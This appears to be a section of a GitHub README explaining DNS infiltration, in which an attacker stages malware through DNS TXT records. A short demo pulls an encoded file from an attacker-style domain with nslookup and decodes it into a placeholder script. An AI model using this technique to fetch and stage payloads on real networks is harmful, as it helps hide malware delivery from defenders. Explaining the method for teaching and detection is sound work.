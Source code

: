 
## DNS Infiltration

- DNS infiltration defines the process where malicious code is ran to manipulate DNS servers either using automated systems where attackers connect remotely to the network infrastructure or manually.

![DNS Infiltration](Images/dnsinfil.png)

- **Use case**
    - DNS infiltration is primarily used for **file dropping** or **malware staging** efforts. With behavioral, signature based, or reputation based threat detection systems it's possible this attack method could be caught.
    - However, if this method of transporting data goes unnoticed it could lead to malicious activity such as code execution in organization's environment. Historically, this has cased havoc and disruption for various well known companies.
- DNS protocol could be used as a **covert protocol** that could aid in **malware staging and execution** efforts to communicate back to an attacker's C2 (Command and Control) server/s. 

- **Demo**

```bash
$ nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > mal.py

$ python3 ~/dns-exfil-infil/packetySimple.py 
Filename: mal.py
[+] Reading from file...
[+] Base58 decoded.
[+] Base64 decoded.
[+] Done, mal.py is decoded.

$ ls
mal.py

$ cat mal.py 
while True: print("maLwAre CoDe")
```

---